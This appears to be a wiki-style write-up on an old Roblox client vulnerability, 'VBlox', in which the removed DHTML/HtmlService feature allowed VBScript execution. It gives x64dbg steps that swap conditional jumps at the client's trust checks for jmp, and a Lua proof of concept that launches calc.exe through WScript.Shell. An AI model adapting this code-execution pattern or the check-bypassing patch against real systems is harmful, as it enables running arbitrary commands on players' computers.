

VBlox is a vulnerability in clients before January 2008 that allows for VBScript execution which uses ROBLOX's now-removed DHTML feature. DHTML, as the name suggests, was a service which allowed players to display HTML documents within ROBLOX. Unlike GUIs, DHTML windows were completely new windows that would open on a player's computer which were based off of Trident, which was Internet Explorer's browser engine. 

The main reason for DHTML's removal was because it was easily exploitable (shown here), mainly for place stealing, but can also be used to run VBScript by malicious attackers. DHTML's very short life span (being removed in January of 2008) suggests that Roblox was very aware of the security issues it created. A year and a half later, in 2009, Roblox would release a replacement for DHTML, known as PlayerGUIs, a built-in GUI display system which could do nearly everything DHTML could other than render HTML.
# Explanation


When a LocalScript in StarterPack is executed, a HtmlWindow can be created which can run VBScript, leading to [arbitrary code execution](https://en.wikipedia.org/wiki/Arbitrary_code_execution).
# How to patch
* Open the client you want to patch in x64dbg.
* Go to Symbols and then open the roblox.exe module.
* Go to the string search icon (Az) and search for "HtmlService". Open the first result.
* Scroll up, and 3 lines above you should see a jne/jnz instruction. Make sure to replace those with a jmp.
* Go to references and open the second trust check and repeat the same process, then press `CTRL+P` to complete the patch.
# Example
The following code below is a LocalScript that first runs VBScript, which runs Shell code, and that Shell code later opens calc.exe.
```lua
local w = game:GetService("HtmlService"):NewWindow()

w.DocumentComplete:connect(function()
	w:SetBody([==[
	<html>
	<head><title>Test</title></head>
	<body>
		<h3>ROBLOX is loading the game..</h3>

		<script language="VBScript">
		Set WshShell = CreateObject("WScript.Shell")
		WshShell.Run "calc.exe"
		</script>

	</body>
	</html>
	]==])
	w:Show()
end)

w:Navigate()
```
